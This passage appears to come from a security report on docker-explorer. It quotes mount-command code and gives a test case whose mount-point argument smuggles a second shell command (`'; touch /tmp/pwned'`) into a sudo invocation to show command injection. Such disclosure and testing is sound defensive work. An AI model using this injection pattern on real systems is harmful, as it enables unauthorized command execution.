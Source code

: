         # docker_explorer/storage.py - OverlayStorage.MakeMountCommands
        commands = [[
            '/bin/mount', '-t', 'overlay', 'overlay', '-o',
            f'ro,lowerdir={upper_dir}:{lower_dir}', mount_dir]] # mount_dir is directly used here
        ```

- **Security test case:**
    1. Test system with Docker and `docker-explorer`.
    2. Execute `de.py mount` with crafted mount point:
       ```bash
       sudo tools/de.py -r /var/lib/docker mount 7b02fb3e8a66 /tmp/test_mount'; touch /tmp/pwned'
       ```
    3. Check for command injection:
       ```bash
       ls /tmp/pwned
       ```
       If `/tmp/pwned` exists, injection is successful.
    4. Cleanup:
       ```bash
       sudo rm -rf /tmp/test_mount*
       sudo rm -f /tmp/pwned